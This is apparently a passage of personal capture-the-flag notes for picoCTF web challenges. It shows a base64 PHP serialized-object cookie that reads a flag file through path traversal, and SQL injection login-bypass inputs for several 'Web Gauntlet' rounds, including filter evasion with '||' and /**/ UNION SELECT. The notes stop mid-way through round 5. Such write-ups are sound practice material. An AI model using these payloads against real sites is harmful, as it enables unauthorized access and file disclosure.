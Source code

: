 
+ base64 encode serialization,and set to cookie `{'login':'TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9'}`

+ 然後server就掛了
![image](https://hackmd.io/_uploads/BJLIuhjt6.png)

+ `<url>/authentication.php` , set cookie 就有了

`Flag` : picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}
`REF` : https://ctftime.org/writeup/27162



Web Gauntlet
--
`SQL injection`

### Round1
+ Round1: or
```input=
user = admin'--
password = <123>
```

### Round2
+ Round2: or and like=--
```input=
user= admin' /*
password=123
```

### Round3
+ Round3: or and = like > < --
```input=
user= admin';
password=123
```

### Round4
+ Round4: or and = like > < -- admin

+ use ||
```input=
user= ad'||'min';
password=123
```
+ sql
```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='ads'
```
+ use union
```input
user = 123'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;
```
+ sql
```sql
SELECT * FROM users WHERE username='mregra'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1; AND   password='pass'
```
### Round5
+ Round5: or and = like > < -- union admin
+ union:
